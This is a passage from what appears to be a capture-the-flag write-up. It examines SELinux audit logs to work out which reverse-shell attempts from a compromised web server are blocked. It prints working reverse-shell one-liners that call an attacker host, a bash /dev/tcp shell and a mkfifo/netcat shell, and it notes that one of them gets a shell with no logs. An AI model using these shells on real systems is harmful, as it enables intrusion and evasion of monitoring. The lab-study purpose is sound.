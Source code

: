 
    type=AVC msg=audit(1563309265.374:709): avc:  denied  { name_connect } for  pid=2675 comm="bash" dest=9001 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:tor_port_t:s0 tclass=tcp_socket                                                    
    type=SYSCALL msg=audit(1563309265.374:709): arch=c000003e syscall=42 success=no exit=-13 a0=3 a1=138df20 a2=10 a3=7fff9f4d5860 items=0 ppid=2674 pid=2675 auid=4294967295 uid=48 gid=48 euid=48 suid=48 fsuid=48 egid=48 sgid=48 fsgid=48 tty=(none) ses=4294967295 comm="bash" exe="/usr/bin/bash" subj=system_u:system_r:httpd_t:s0 key=(null)
    type=SOCKADDR msg=audit(1563309265.374:709): saddr=020023290A0A0E080000000000000000
    type=PROCTITLE msg=audit(1563309265.374:709): proctitle=62617368002D630062617368202D69203E26202F6465762F7463702F31302E31302E31342E382F3930303120303E2631 



It's blocking this because of the port, as I can see in
`object_r:tor_port_t:s0`. TCP 9001 is in fact a [tor port among other
things](https://www.speedguide.net/port.php?port=9001). If I run:



    bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'



I get a callback and shell, no logs.

The SELinux config must allow for http ports like 443 outbound. In some
testing, only HTTP and LDAP related ports seemed to work outbound.

#### mkfifo

Similarly, when I try to run the `mkfifo` shell:



    CTF> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f



I get blocked and logs in audit:



    type=AVC msg=audit(1563309851.417:789): avc:  denied  { create } for  pid=2925 comm="mkfifo" name="f" scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:tmp_t:s0 tclass=fifo_file                                                               
    type=SYSCALL msg=audit(1563309851.417:789): arch=c000003e syscall=133 success=no exit=-13 a0=7fffba8e5f55 a1=11b6 a2=0 a3=7fffba8e5460 items=2 ppid=2923 pid=2925 auid=4294967295 uid=48 gid=48 euid=48 suid=48 fsuid=48 egid=48 sgid=48 fsgid=48 tty=(none) ses=4294967295 comm="mkfifo" exe="/usr/bin/mkfifo" subj=system_u:system_r:httpd_t:s0 key=(null)
    type=CWD msg=audit(1563309851.417:789):  cwd="/var/www.md"
    type=PATH msg=audit(1563309851.417:789): item=0 name="/tmp/" inode=12601314 dev=fd:00 mode=041777 ouid=0 ogid=0 rdev=00:00 obj=system_u:object_r:tmp_t:s0 objtype=PARENT cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0                   
    type=PATH msg=audit(1563309851.417:789): item=1 name="/tmp/f" objtype=CREATE cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0                                                                                                               
    type=PROCTITLE msg=audit(1563309851.417:789): proctitle=6D6B6669666F002F746D702F66



SELinux is blocking the pipe creation, at least in `/tmp`. I can see
`object_r:tmp_t` for `/tmp`, and `tclass=fifo_file` for a pipe.
